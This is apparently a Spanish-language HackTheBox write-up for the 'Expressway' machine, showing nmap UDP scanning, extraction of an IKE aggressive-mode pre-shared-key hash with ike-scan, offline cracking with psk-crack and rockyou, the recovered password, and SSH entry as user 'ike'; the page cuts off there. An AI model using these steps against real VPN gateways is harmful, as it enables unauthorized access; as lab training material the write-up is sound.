

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/hackthebox/expressway/index.html · generator: mkdocs

# Expressway

- Por tcp solo encontramos ssh en el puerto 22

- Por udp encontramos un isakmp
```bash
nmap -sU --top-ports 100 -n 10.129.55.88
```

![](../../assets/img/Pasted_image_20260225231520.png)

```bash
sudo ike-scan -AMv expressway.htb
```

![](../../assets/img/Pasted_image_20260225231727.png)

- Extraemos el hash
```bash
sudo ike-scan -A -M --pskcrack=hash.txt -v expressway.htb
```

ike-scan → Escáner de IKE/IPsec
-A → Prueba múltiples propuestas de cifrado
-M → Usa Aggressive Mode (más rápido, más info)
-v → Verbose

- Lo crackeamos
```bash
sudo psk-crack -d /usr/share/wordlists/rockyou.txt hash.txt
```

**freakingrockstarontheroad**

Entramos por ssh con el usuario ike
ike
